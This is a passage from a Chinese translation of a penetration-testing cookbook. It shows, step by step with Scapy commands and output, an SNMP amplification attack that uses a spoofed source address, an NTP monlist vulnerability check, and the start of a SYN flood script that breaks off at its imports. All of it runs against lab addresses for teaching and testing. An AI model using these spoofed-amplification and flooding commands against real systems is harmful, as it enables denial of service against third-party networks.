SNMP 扩展攻击通过伪造具有大型响应的查询，来利用团体字符串可预测的 SNMP 设备。 通过使用分布式 DDoS 组件，以及通过同时向多个 SNMP 设备发送请求，可以提高这种攻击的效率。
准备
为了模拟 SNMP 放大攻击，你需要有一个启用 SNMP 的设备。 所提供的示例使用 Windows XP 设备。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，此秘籍将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。
操作步骤
为了开始，我们应该初始化一个 SNMP 查询，使其返回到我们的系统，来评估要使用的载荷大小。 为了发送我们的 SNMP 查询请求，我们必须首先构建此请求的层级。 我们需要构建的第一层是 IP 层：
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\
>>> i.dst = "172.16.36.134"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.224
dst= 172.16.36.134
\options\
要构建我们的请求的 IP 层，我们应该将 IP 对象赋给变量i。 通过调用display()函数，我们可以确定该对象的属性配置。 通常，发送和接收地址都设为回送地址127.0.0.1。 可以通过将i.dst设置为广播地址的字符串值，来更改目标地址并修改这些值。 通过再次调用display()函数，我们可以看到，不仅更新了目的地址，而且Scapy也会自动将源 IP 地址更新为与默认接口相关的地址。 现在我们已经构建了请求的 IP 层，我们应该继续构建 UDP 层：
>>> u = UDP()
>>> u.display()
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None
要构建我们的请求的 UDP 层，我们将使用与IP层相同的技术。 在提供的示例中，UDP 对象赋给了u变量。 如前所述，可以通过调用display()函数来确定默认配置。 在这里，我们可以看到源和目标端口的默认值都列为domain。 您可能能猜到，这表示与端口 53 相关的 DNS服 务。你可能已经猜到，它需要修改为 SNMP 相关的端口：
>>> u.dport = 161
>>> u.sport = 161
>>> u.display()
###[ UDP ]###
sport= snmp
dport= snmp
len= None
chksum= None
要将源端口和目标端口更改为 SNMP，应将整数值 161 传递给它; 此值对应于与服务关联的 UDP 端口。 这些更改可以通过再次调用display()函数来验证。 现在已经构建了 IP 和 UDP 层，我们需要构建 SNMP 层：
>>> snmp = SNMP()
>>> snmp.display()
###[ SNMP ]###
version= v2c
community= 'public'
\PDU\
|###[ SNMPget ]###
| id= 0
| error= no_error
| error_index= 0
|
\varbindlist\
为了构建我们的请求的 SNMP 层，我们将使用与 IP 和 UDP 层相同的技术。 在提供的示例中，SNMP 对象已赋给snmp变量。 如前所述，可以通过调用display()函数来标识默认配置。 现在已经构建了 IP，UDP 和 SNMP 层，我们需要构建一个批量请求来替换默认赋给 PDU 值的SNMPget请求：
>>> bulk = SNMPbulk()
>>> bulk.display()
###[ SNMPbulk ]###
id= 0
non_repeaters= 0
max_repetitions= 0
\varbindlist\
为了构建 SNMP 批量请求，我们将使用与 IP，UDP 和 SNMP 层相同的技术。 在提供的示例中，SNMP 批量请求已赋给了bulk变量。 如前所述，可以通过调用display()函数来确认默认配置。 在这里，我们可以看到有几个值需要修改：
>>> bulk.max_repetitions = 50
>>> bulk.varbindlist=[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarb ind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))]
>>> bulk.display()
###[ SNMPbulk ]###
id= 0
non_repeaters= 0
max_repetitions= 50
\varbindlist\
|###[ SNMPvarbind ]###
| oid= <ASN1_OID['.1.3.6.1.2.1.1']>
| value= <ASN1_NULL[0]>
|###[ SNMPvarbind ]###
| oid= <ASN1_OID['.1.3.6.1.2.1.19.1.3']>
| value= <ASN1_NULL[0]>
SNMP varbindlist需要修改来包含查询的 OID 值。 此外，max_repetitions赋了整数值为 50。现在批量请求已配置完毕，批量请求对象应赋给SNMP PDU值：
>>> snmp.PDU = bulk
>>> snmp.display()
###[ SNMP ]###
version= v2c
community= 'public'
\PDU\
|###[ SNMPbulk ]###
| id= 0
| non_repeaters= 0
| max_repetitions= 50
| \varbindlist\
|
|###[ SNMPvarbind ]###
|
| oid= <ASN1_OID['.1.3.6.1.2.1.1']>
|
| value= <ASN1_NULL[0]>
|
|###[ SNMPvarbind ]###
|
| oid= <ASN1_OID['.1.3.6.1.2.1.19.1.3']>
|
| value= <ASN1_NULL[0]>
我们可以通过调用display()函数来验证批量请求是否已赋给SNMP PDU值。 现在已经构建了 IP，UDP 和 SNMP 层，并且批量请求已经配置并赋给 SNMP 层，我们可以通过堆叠这些层来构造请求：
>>> request = (i/u/snmp)
>>> request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= udp
chksum= None
src= 172.16.36.224
dst= 172.16.36.134
\options\
###[ UDP ]###
sport= snmp
dport= snmp
len= None
chksum= None
###[ SNMP ]###
version= v2c
community= 'public'
\PDU\
|###[ SNMPbulk ]###
| id= 0
| non_repeaters= 0
| max_repetitions= 50
| \varbindlist\
|
|###[ SNMPvarbind ]###
|
| oid= <ASN1_OID['.1.3.6.1.2.1.1']>
|
| value= <ASN1_NULL[0]>
|
|###[ SNMPvarbind ]###
|
| oid= <ASN1_OID['.1.3.6.1.2.1.19.1.3']>
|
| value= <ASN1_NULL[0]>
可以通过使用斜杠分隔变量来堆叠 IP，UDP 和 SNMP 层。 然后可以将这些层赋给表示整个请求的新变量。 然后可以调用display()函数来查看请求的配置。 一旦建立了请求，就可以将其传递给发送和接收函数，以便我们可以分析响应：
>>> ans = sr1(request,verbose=1,timeout=5)
Begin emission:
Finished to send 1 packets.
Received 1 packets, got 1 answers, remaining 0 packets
>>> ans.display()
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 1500
id= 27527
flags= MF
frag= 0L
ttl= 128
proto= udp
chksum= 0x803
src= 172.16.36.134
dst= 172.16.36.224
\options\
###[ UDP ]###
sport= snmp
dport= snmp
len= 2161
chksum= 0xdcbf
###[ Raw ]###
load= '0\x82\x08e\x02\x01\x01\x04\x06public\xa2\x82\x08V\x02\ x01\x00\x02\x01\x00\x02\x01\x000\x82\x08I0\x81\x8b\x06\x08+\x06\x01\x02\ x01\x01\x01\x00\x04\x7fHardware: x86 Family 6 Model 58 Stepping 9 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)0\x10\x06\t+\x06\x01\x02\x01\x19\x01\x01\x00C\x03p\xff?0\x18\x06\ x08+\x06\x01\x02\x01\x01\x02\x00\x06\x0c+\x06\x01\x04\x01\x827\x01\x01\ x03\x01\x010\x15\x06\t+\x06\x01\x02\x01\x19\x01\x02\x00\x04\x08\x07\xde\ x02\x19\x08\r\x1d\x030\x0f\x06\x08+\x06\x01\x02\x01\x01\x03\x00C\x03o\ x8e\x8a0\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x03\x00\x02\x01\x000\x0c\ x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x000\r\x06\t+\x06\x01\x02\x01\ x19\x01\x04\x00\x04\x000\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04\ x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x020\ x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x000\x0e\x06\t+\x06\x01\ x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00\ x02\x01L0\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x07\x00\x02\x01\x000\r\x06\ x08+\x06\x01\x02\x01\x02\x01\x00\x02\x01\x020\x10\x06\t+\x06\x01\x02\x01\ x19\x02\x02\x00\x02\x03\x1f\xfd\xf00\x0f\x06\n+\x06\x01\x02\x01\x02\x02\ x01\x01\x01\x02\x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\ x01\x01\x02\x01\x010\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\x02\x02\ x01\x020\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x02\x02\x01\ x020(\x06\n+\x06\x01\x02\x01\x02\x02\x01\x02\x01\x04\x1aMS TCP Loopback interface\x000\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x03\x02\x01\x030P\x06\n+\x06\x01\x02\x01\x02\x02\x01\x02\x02\x04BAMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport\x000\x10\x06\x0b+\x06\ x01\x02\x01\x19\x02\x03\x01\x01\x04\x02\x01\x040\x0f\x06\n+\x06\x01\x02\ x01\x02\x02\x01\x03\x01\x02\x01\x180\x10\x06\x0b+\x06\x01\x02\x01\x19\ x02\x03\x01\x01\x05\x02\x01\x050\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\ x03\x02\x02\x01\x060\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\ x01\x06\t+\x06\x01\x02\x01\x19\x02\x01\x050\x10\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x04\x01\x02\x02\x05\xf00\x18\x06\x0b+\x06\x01\x02\x01\x19\ x02\x03\x01\x02\x02\x06\t+\x06\x01\x02\x01\x19\x02\x01\x040\x10\x06\n+\ x06\x01\x02\x01\x02\x02\x01\x04\x02\x02\x02\x05\xdc0\x18\x06\x0b+\x06\ x01\x02\x01\x19\x02\x03\x01\x02\x03\x06\t+\x06\x01\x02\x01\x19\x02\x01\ x070\x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\x01B\x04\x00\x98\x96\ x800\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x04\x06\t+\x06\ x01\x02\x01\x19\x02\x01\x030\x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\ x02B\x04;\x9a\xca\x000\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\ x05\x06\t+\x06\x01\x02\x01\x19\x02\x01\x020\x0e\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x06\x01\x04\x000\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\ x01\x03\x01\x04\x03A:\\0\x14\x06\n+\x06\x01\x02\x01\x02\x02\x01\x06\x02\ x04\x06\x00\x0c)\x18\x11\xfb01\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\ x03\x02\x04"C:\\ Label: Serial Number 5838200b0\x0f\x06\n+\x06\x01\x02\ x01\x02\x02\x01\x07\x01\x02\x01\x010\x12\x06\x0b+\x06\x01\x02\x01\x19\ x02\x03\x01\x03\x03\x04\x03D:\\0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\ x07\x02\x02\x01\x010\x1d\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\ x04\x04\x0eVirtual Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\ x01\x02\x01\x010\x1e\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x05\ x04\x0fPhysical Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\x02\ x02\x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x01\x02\ x01\x000\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\t\x01C\x01\x000\x11\x06\ x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x02\x02\x02\x10\x000\x11\x06\ n+\x06\x01\x02\x01\x02\x02\x01\t\x02C\x03m\xbb00\x10\x06\x0b+\x06\x01\ x02\x01\x19\x02\x03\x01\x04\x03\x02\x01\x000\x12\x06\n+\x06\x01\x02\x01\ x02\x02\x01\n\x01A\x04\x05\xcb\xd6M0\x12\x06\x0b+\x06\x01\x02\x01\x19\ x02\x03\x01\x04\x04\x02\x03\x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\ x02\x01\n\x02A\x03\x06\xb1\xa80\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\ x01\x04\x05\x02\x03\x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\x02\x01\ x0b\x01A\x03\rR\x920\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\ x01\x02\x01\x000\x10\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0b\x02A\x02\x0c\ xfe0\x13\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x02\x02\x04\x00\ x9f\xf6a0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0c\x01A\x01\x000\x10\ x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x03\x02\x01\x000'
响应确认了我们已经成功构建了所需请求，并且与最初生成的相对较小请求相比，已经请求了相当大的载荷。 与之相似，整个过程可以使用 Scapy 中的单个命令来执行。 此命令使用所有与上一个练习中讨论的相同的值：
>>> sr1(IP(dst="172.16.36.134")/UDP(sport=161,dport=161)/ SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist=[SNMPvarbind(oid=ASN1_OD('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))])),ve rbose=1,timeout=5)
Begin emission: Finished to send 1 packets.
<IP version=4L ihl=5L tos=0x0 len=1500 id=14170 flags=MF frag=0L ttl=128 proto=udp chksum=0x3c30 src=172.16.36.134 dst=172.16.36.224 options=[] |<UDP sport=snmp dport=snmp len=2162 chksum=0xd961 |<Raw load='0\x82\ x08f\x02\x01\x01\x04\x06public\xa2\x82\x08W\x02\x01\x00\x02\x01\x00\ x02\x01\x000\x82\x08J0\x81\x8b\x06\x08+\x06\x01\x02\x01\x01\x01\x00\ x04\x7fHardware: x86 Family 6 Model 58 Stepping 9 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)0\x11\ x06\t+\x06\x01\x02\x01\x19\x01\x01\x00C\x04\x00\xa3i\xad0\x18\x06\x08+\ x06\x01\x02\x01\x01\x02\x00\x06\x0c+\x06\x01\x04\x01\x827\x01\x01\x03\ x01\x010\x15\x06\t+\x06\x01\x02\x01\x19\x01\x02\x00\x04\x08\x07\xde\x02\ x19\t\x08!\x010\x0f\x06\x08+\x06\x01\x02\x01\x01\x03\x00C\x03t\x99\x180\ x0e\x06\t+\x06\x01\x02\x01\x19\x01\x03\x00\x02\x01\x000\x0c\x06\x08+\ x06\x01\x02\x01\x01\x04\x00\x04\x000\r\x06\t+\x06\x01\x02\x01\x19\x01\ x04\x00\x04\x000\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04\x0fDEMO72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x020\x0c\x06\ x08+\x06\x01\x02\x01\x01\x06\x00\x04\x000\x0e\x06\t+\x06\x01\x02\x01\ x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00\x02\x01L0\ x0e\x06\t+\x06\x01\x02\x01\x19\x01\x07\x00\x02\x01\x000\r\x06\x08+\x06\ x01\x02\x01\x02\x01\x00\x02\x01\x020\x10\x06\t+\x06\x01\x02\x01\x19\x02\ x02\x00\x02\x03\x1f\xfd\xf00\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\ x01\x02\x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x01\ x02\x01\x010\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\x02\x02\x01\x020\ x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x02\x02\x01\x020(\x06\ n+\x06\x01\x02\x01\x02\x02\x01\x02\x01\x04\x1aMS TCP Loopback interface\ x000\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x03\x02\x01\x030P\ x06\n+\x06\x01\x02\x01\x02\x02\x01\x02\x02\x04BAMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport\x000\x10\x06\x0b+\x06\x01\ x02\x01\x19\x02\x03\x01\x01\x04\x02\x01\x040\x0f\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x03\x01\x02\x01\x180\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x01\x05\x02\x01\x050\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x03\ x02\x02\x01\x060\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x01\ x06\t+\x06\x01\x02\x01\x19\x02\x01\x050\x10\x06\n+\x06\x01\x02\x01\x02\ x02\x01\x04\x01\x02\x02\x05\xf00\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x02\x02\x06\t+\x06\x01\x02\x01\x19\x02\x01\x040\x10\x06\n+\x06\ x01\x02\x01\x02\x02\x01\x04\x02\x02\x02\x05\xdc0\x18\x06\x0b+\x06\x01\ x02\x01\x19\x02\x03\x01\x02\x03\x06\t+\x06\x01\x02\x01\x19\x02\x01\x070\ x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\x01B\x04\x00\x98\x96\x800\ x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x04\x06\t+\x06\x01\x02\ x01\x19\x02\x01\x030\x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\x02B\ x04;\x9a\xca\x000\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x05\ x06\t+\x06\x01\x02\x01\x19\x02\x01\x020\x0e\x06\n+\x06\x01\x02\x01\x02\ x02\x01\x06\x01\x04\x000\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\ x03\x01\x04\x03A:\\0\x14\x06\n+\x06\x01\x02\x01\x02\x02\x01\x06\x02\x04\ x06\x00\x0c)\x18\x11\xfb01\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x02\x04"C:\\ Label: Serial Number 5838200b0\x0f\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x07\x01\x02\x01\x010\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x03\x03\x04\x03D:\\0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x07\ x02\x02\x01\x010\x1d\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x04\ x04\x0eVirtual Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\x01\ x02\x01\x010\x1e\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x05\x04\ x0fPhysical Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\x02\x02\ x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x01\x02\x01\ x000\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\t\x01C\x01\x000\x11\x06\x0b+\ x06\x01\x02\x01\x19\x02\x03\x01\x04\x02\x02\x02\x10\x000\x11\x06\n+\x06\ x01\x02\x01\x02\x02\x01\t\x02C\x03m\xbb00\x10\x06\x0b+\x06\x01\x02\x01\ x19\x02\x03\x01\x04\x03\x02\x01\x000\x12\x06\n+\x06\x01\x02\x01\x02\x02\ x01\n\x01A\x04\x08OB_0\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\ x04\x02\x03\x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\x02\x01\n\x02A\ x03\rIe0\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x05\x02\x03\ x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0b\x01A\x03\x13\x14\ xde0\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x01\x02\x01\x000\ x10\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0b\x02A\x02\x1e\xc10\x13\x06\ x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x02\x02\x04\x00\x9f\xf6a0\x0f\ x06\n+\x06\x01\x02\x01\x02\x02\x01\x0c\x01A\x01\x000\x10\x06\x0b+\x06\ x01\x02\x01\x19\x02\x03\x01\x05\x03\x02\x01\x00' |>>>
为了实际将此命令用作攻击，源 IP 地址需要更改为目标系统的 IP 地址。 这样，我们应该能够将载荷重定向给那个受害者。 这可以通过将 IP src值更改为目标 IP 地址的字符串来完成：
>>> send(IP(dst="172.16.36.134",src="172.16.36.135")/ UDP(sport=161,dport=161)/SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist =[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1. 3.6.1.2.1.19.1.3'))])),verbose=1,count=2)
.
Sent 2 packets.
send()函数应该用于发送这些伪造请求，因为响应返回预期不会给本地接口。 要确认载荷是否到达目标系统，可以使用 TCPdump 捕获传入流量：
admin@ubuntu:~$ sudo tcpdump -i eth0 -vv src 172.16.36.134
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp: [len1468<asnlen2150]
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp: [len1468<asnlen2150]
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp
4 packets captured
4 packets received by filter
0 packets dropped by kernel
在所提供的示例中，TCPdump 配置为捕获eth0接口上，来自源IP地址172.16.36.134（SNMP 主机的IP地址）的流量。
工作原理
放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：
- 用于执行攻击的协议不验证请求源
- 来自所使用的网络功能的响应应该显着大于用于请求它的请求。
SNMP 放大攻击的效率取决于 SNMP 查询的响应大小。 另外，可以通过使用多个 SNMP 服务器来增加攻击的威力。
6.6 NTP 放大 DoS 攻击
NTP 放大 DoS 攻击利用响应远程 monlist 请求的网络时间协议（NTP）服务器。 monlist 函数返回与服务器交互的所有设备的列表，在某些情况下最多达 600 个列表。 攻击者可以伪造来自目标 IP 地址的请求，并且漏洞服务器将为每个发送的请求返回非常大的响应。 在写这本书的时候，这仍然是一个常见的威胁，目前正在大规模使用。 因此，我将仅演示如何测试 NTP 服务器，以确定它们是否将响应远程 monlist 请求。 补丁程序可用于大多数 NTP 服务来解决此问题，并且任何有存在漏洞的设备应该修复或下线。
准备
为了确定是否可以利用 NTP 服务器执行 NTP 放大攻击，你需要有启用 NTP 的设备。 在提供的示例中，Ubuntu 用于托管 NTP 服务。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。
操作步骤
为了确定远程服务器是否运行 NTP 服务，Nmap 可用于快速扫描 UDP 端口 123。 -sU选项可用于指定 UDP，然后可使用-p选项来指定端口 ：
root@KaliLinux:~# nmap -sU 172.16.36.224 -p 123
Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-24 18:12 EST
Nmap scan report for 172.16.36.224
Host is up (0.00068s latency).
PORT STATE SERVICE
123/udp open ntp
MAC Address: 00:0C:29:09:C3:79 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
如果远程服务器上运行 NTP 服务，则扫描应返回打开状态。 Kali Linux 上默认安装的另一个工具可用于确定 NTP 服务是否可用于放大攻击。 NTPDC 工具可用于尝试对远程服务执行 monlist 命令：
root@KaliLinux:~# ntpdc -n -c monlist 172.16.36.224
172.16.36.224: timed out, nothing received
***Request timed out
理想情况下，我们希望看到的是没有响应返回。 在所提供的第一个示例中，请求超时，并且未接收到输出。 这表明服务器不易受攻击，并且 monlist 命令只能在本地执行：
root@KaliLinux:~# ntpdc -c monlist 172.16.36.3
remote address port local address count m ver rstr avgint lstint
========================================================================= ======
host.crossing.com 123 172.16.36.3 18 4 4 1d0 35 1
grub.ca.us.roller.o 123 172.16.36.3 17 4 4 1d0 37 35
va-time.utility.o 123 172.16.36.3 17 4 4 1d0 37 59
cheezpuff.meatball.n 123 172.16.36.3 17 4 4 1d0 38 62
pwnbox.lizard.com 123 172.16.36.3 35 4 4 5d0 65 51
或者，如果返回了一系列主机和连接元数据，则远程服务器可能能够用于放大攻击。 对于与服务器交互的每个新主机，会在此列表中添加一个新条目，响应的大小以及可能的载荷会变得更大。
放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：
- 用于执行攻击的协议不验证请求源
- 来自所使用的网络功能的响应应该显着大于用于请求它的请求。
NTP 放大攻击的效率取决于 NTP 查询的响应大小。 另外，可以通过使用多个 NTP 服务器来增加攻击的威力。
6.7 SYN 泛洪 DoS 攻击
SYN 泛洪 DoS攻击是一种资源消耗攻击。 它的原理是向作为攻击目标的服务相关的远程端口发送大量 TCP SYN 请求。 对于目标服务接收的每个初始 SYN 分组，然后会发送出 SYN + ACK 分组并保持连接打开，来等待来自发起客户端的最终 ACK 分组。 通过使用这些半开请求使目标过载，攻击者可以使服务无响应。
准备
为了使用 Scapy 对目标执行完整的 SYN 泛洪，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。
操作步骤
为了使用 Scapy 执行 SYN 泛洪，我们需要通过与目标服务关联的端口发送 TCP SYN 请求来开始。 为了向任何给定端口发送 TCP SYN 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.224
dst= 172.16.36.135
\options\
要构建我们的请求的 IP 层，我们应该将 IP 对象赋给变量i。 通过调用display()函数，我们可以确定该对象的属性配置。 通常，发送和接收地址都设为回送地址127.0.0.1。 可以通过将i.dst设置为广播地址的字符串值，来更改目标地址并修改这些值。 通过再次调用display()函数，我们可以看到，不仅更新了目的地址，而且Scapy也会自动将源 IP 地址更新为与默认接口相关的地址。 现在我们已经构建了请求的 IP 层，我们应该继续构建 TCP 层：
>>> t = TCP()
>>> t.display()
###[ TCP ]###
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}
要构建我们的请求的 TCP 层，我们将使用与 IP 层相同的技术。 在提供的示例中，TCP 对象赋给了t变量。 如前所述，可以通过调用display()函数来确定默认配置。 在这里，我们可以看到目标端口的默认值是 HTTP 80 端口。对于我们的首次扫描，我们将 TCP 配置保留默认。现在我们构建了 IP 和 TCP 层，我们可以通过堆叠这些层来构造请求：
>>> response = sr1(i/t,verbose=1,timeout=3)
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> response.display()
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 44
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9944
src= 172.16.36.135
dst= 172.16.36.224
\options\
###[ TCP ]###
sport= http
dport= ftp_data
seq= 3651201360L
ack= 1
dataofs= 6L
reserved= 0L
flags= SA
window= 5840
chksum= 0x1c68
urgptr= 0
options= [('MSS', 1460)]
###[ Padding ]###
load= '\x00\x00'
可以通过使用斜杠分隔变量来堆叠 IP 和 TCP 层。 然后可以将这些层赋给表示整个请求的新变量。 然后可以调用display()函数来查看请求的配置。 一旦建立了请求，就可以将其传递给发送和接收函数，以便我们可以分析响应：
>>> request = (i/t)
>>> request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= tcp
chksum= None
src= 172.16.36.224
dst= 172.16.36.135
\options\
###[ TCP ]###
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}
可以在不独立地构建和堆叠每个层的情况下执行相同的请求。 相反，可以通过直接调用函数并向其传递适当的参数来使用单行命令：
>>> sr1(IP(dst="172.16.36.135")/TCP())
Begin emission:
......................................................
Finished to send 1 packets.
..*
Received 57 packets, got 1 answers, remaining 0 packets
<IP version=4L ihl=5L tos=0x0 len=44 id=0 flags=DF frag=0L ttl=64 proto=tcp chksum=0x9944 src=172.16.36.135 dst=172.16.36.224 options=[] |<TCP sport=http dport=ftp_data seq=2078775635 ack=1 dataofs=6L reserved=0L flags=SA window=5840 chksum=0xca1e urgptr=0 options=[('MSS', 1460)] |<Padding load='\x00\x00' |>>>
SYN 泛洪的效率取决于在给定时间段内可以生成的 SYN 请求的数量。 为了提高这个攻击序列的效率，我写了一个多线程脚本，可以执行可由攻击系统处理的，尽可能多的 SYN 数据包注入的并发进程：
#!/usr/bin/python
from scapy.all
import * from time
import sleep
import thread
import random
import logging
